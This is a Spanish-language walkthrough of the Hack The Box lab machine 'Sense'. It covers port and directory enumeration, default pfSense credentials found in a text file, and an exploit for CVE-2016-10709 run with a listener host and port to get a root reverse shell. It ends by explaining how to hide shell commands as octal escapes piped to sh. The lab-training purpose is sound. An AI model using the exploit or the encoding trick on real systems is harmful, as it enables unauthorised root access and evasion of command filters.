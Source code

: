 # Sense-HTB
Resolucion de la maquina

## NMAP

```
sudo nmap -sSV -p80,443 10.129.76.69 -oN scan

```
 Tenemos el puerto 80 y el 443 abieto.

 ## FFUF

Aunque se necesito hacer esto recursivamente y se tuvo que usar el Dirbuster

```
ffuf -r -fc 404 -t 100  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.76.69/FUZZ.txt 

```

## Dirbuster

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/1a524956-8a6f-4612-93a9-ed001a85aa0e)


![image](https://github.com/gecr07/Sense-HTB/assets/63270579/6e8a2471-2a37-4733-b3d1-3568191cb567)


Para encontrar cosas admito que es mejor esta herramienta. En este caso necesitabamos encontrar un txt.

```
dirbuster -u https://10.129.76.69 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## searchsploit

```
searchsploit -x #examina
searchsploit -m # mueve

```

En el txt encontramos el usuario

```
####Support ticket###

Please create the following user


username: Rohit # cambiamos esta a minuscula rohit y como nos dice el defualt password ponermos el pfsense y listo!
password: company defaults
```

## RCE

Para buscar exploits aprendimos una cosa nueva poner entre comillas el cve por ejemplo: "CVE-2016-10709" (or Google will return others)

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/bd04aa38-a5ef-45c4-855a-cfa7e64179c2)

```
python3 43560.py --rhost 10.129.76.69 --lhost 10.10.14.10 --lport 4444 --username rohit --password pfsense

```

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/4b0b45f5-5fae-46ca-8f63-705d693ab69d)



Regresa una shell con privilegios de root no me dejo hacer ni full tty.

## Plus

Viendo un pcoo los writeups me di cuenta como funciona esta payload. por ejemplo para crear un payload mas o menos con esta tecnica.

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/514be4fb-928e-45e9-b484-04eccfc30656)


```
# Si pones lo decodifica auque sea base octal nose asi funciona 
printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'        
touch /tmp/0xdf

#Ahora si lo pasas a |sh|echo el echo solo mete un salto de linea.

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'|sh|echo

## Guarda los numeros octales decodificados en ese archivo

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146' | xargs echo -e > archivo_decodificado.txt

```

> https://0xdf.gitlab.io/2021/03/11/htb-sense.html












































